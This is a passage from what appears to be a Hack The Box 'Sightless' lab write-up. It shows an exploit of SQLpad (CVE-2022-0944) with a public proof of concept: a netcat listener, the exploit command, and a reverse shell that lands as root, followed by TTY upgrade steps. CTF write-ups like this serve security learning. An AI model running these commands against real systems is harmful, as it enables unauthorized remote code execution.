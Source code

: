 ![](/assets/obsidian/0616436a64b116922c28fa1ccfb553b5.png)

> Exploit POC - https://github.com/shhrew/CVE-2022-0944

```bash
cd exploit
git clone https://github.com/shhrew/CVE-2022-0944
cd CVE-2022-0944
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless/exploit/CVE-2022-0944]
└─$ python main.py http://sqlpad.sightless.htb 10.10.14.75 1111
[∧] Trying to bind to 10.10.14.75 on port 1111: Trying 10.10.14.75
Exception in thread Thread-1 (start_listener):
Traceback (most recent call last):
  File "/usr/lib/python3.12/threading.py", line 1075, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.12/threading.py", line 1012, in run
    self._target(*self._args, **self._kwargs)
  File "/home/kali/htb/Sightless/exploit/CVE-2022-0944/main.py", line 72, in start_listener
    listener = listen(lport, bindaddr=lhost)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/pwnlib/tubes/listen.py", line 108, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.32] 54774
/bin/sh: 0: can't access tty; job control turned off

# /usr/bin/script -qc /bin/bash /dev/null
root@c184118df0a6:/var/lib/sqlpad# ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
root@c184118df0a6:/var/lib/sqlpad# stty rows 50 columns 209
root@c184118df0a6:/var/lib/sqlpad# id
uid=0(root) gid=0(root) groups=0(root)
```
